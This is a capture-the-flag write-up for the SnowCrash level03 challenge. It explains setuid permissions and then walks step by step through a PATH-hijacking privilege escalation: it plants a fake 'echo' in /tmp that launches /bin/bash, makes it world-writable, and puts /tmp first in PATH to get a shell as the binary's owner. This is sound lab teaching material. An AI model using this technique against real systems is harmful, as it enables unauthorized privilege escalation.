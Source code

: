 # Level03

## Research

```bash
level03@SnowCrash:~$ ls -l
-rwsr-sr-x  1  flag03  level03  8627  Mar  5  2016  level03

level03@SnowCrash:~$ whoami
level03

level03@SnowCrash:~$ groups
level03 users
```

`The s in rws stands for setuid meaning set user ID. When applied to an executable file, it sets the effective user ID from that of the real user (the user actually running the program) to that of the program's owner. Most often this is given to a few programs owned by the superuser. When an ordinary user runs a program that is "setuid root" , the program runs with the effective privileges of the superuser. This allows the program to access files and directories that an ordinary user would normally be prohibited from accessing. Clearly, because this raises security concerns, the number of setuid programs must be held to an absolute minimum.` <br/>
https://askubuntu.com/questions/857066/meaning-of-the-access-permissions-rws-and-root-root-of-usr-bin-sudo

So my user ID will go from level03 to flag03 (program's owner) during the execution of level03.

- How can I make this program run getflag ?

```bash
level03@SnowCrash:~$ ./level03
Exploit me

level03@SnowCrash:~$ strings level03
[...]
/usr/bin/env echo Exploit me
[...]
```

We can see the program calls the echo function.</br>
The ENV utility will invoke the first sh or bash executable found in the user's $PATH.<br/>
`The PATH environment variable is a colon-delimited list of directories that your shell searches through when you enter a command.`<br/>
https://stackoverflow.com/questions/8304396/what-is-vulnerable-about-this-c-code <br/>
https://stackoverflow.com/questions/43793040/how-does-usr-bin-env-work-in-a-linux-shebang-line


## Solution


If we make a fake echo function, then change the path so that it finds our echo first instead of the real one, tt will run it as flag03.

- Steps:

  - Make a fake echo function
      ```bash
      echo '/bin/bash' > /tmp/echo
      ```
      This will create a fake echo that will execute /bin/bash, that is a new connection to our shell with the current user's permission.
      
  - Make this script executabled by flag03
      ``` bash
      chmod 777 /tmp/echo
      ```
      
  - Change path
      ```bash
      level03@SnowCrash:~$ env
      [...]
      PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
      [...]
      ```
      ``` bash
      export PATH=/tmp:$PATH
      ```
      ```bash
      level03@SnowCrash:~$ env
      [...]
      PATH=/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
      [...]
      ```
      We added tmp directory at the start of the path.


```bash
level03@SnowCrash:~$ ./level03
```

You are now `flag03` as a user, because you "opened" a new shell with the rights of flag03.

You can now launch `getflag` with flag03 rights.

https://www.cgsecurity.org/Articles/SecProg/Art1/index-fr.html


